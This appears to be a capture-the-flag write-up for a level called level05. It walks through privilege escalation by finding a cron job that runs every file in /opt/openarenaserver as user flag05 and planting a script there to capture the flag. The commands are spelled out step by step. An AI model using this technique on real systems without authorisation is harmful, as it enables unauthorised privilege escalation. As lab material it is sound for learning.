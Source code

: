 The command ```find / -group level05 2>/dev/null``` lists nothing of interest but the command :
```find / -group flag05 2>/dev/null``` get this results :
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

=> execute /usr/sbin/openarenaserver as flag05 ?

The command ```find / -name "level05" 2>/dev/null``` get these files :
/var/mail/level05
/rofs/var/mail/level05

```cat /var/mail/level05```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

***this looks like a crontab syntax to execute the command every 2 minutes***
we can assume this crontab is in use for flag05 user


```cat /usr/sbin/openarenaserver```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

This script execute any file in /opt/openarenaserver then delete it

we create a file in this directory that executes getflag ```echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/getflag```
we add permission to be executed : ```chmod +x /opt/openarenaserver/getflag```
after waiting 2 minutes the file /tmp/flag contains our flag : ```cat /tmp/flag```

This method can be refined with the command ```echo "/bin/getflag | wall``` as now all users get the getflag message :
echo "/bin/getflag | wall" > getflag && chmod +x getflag 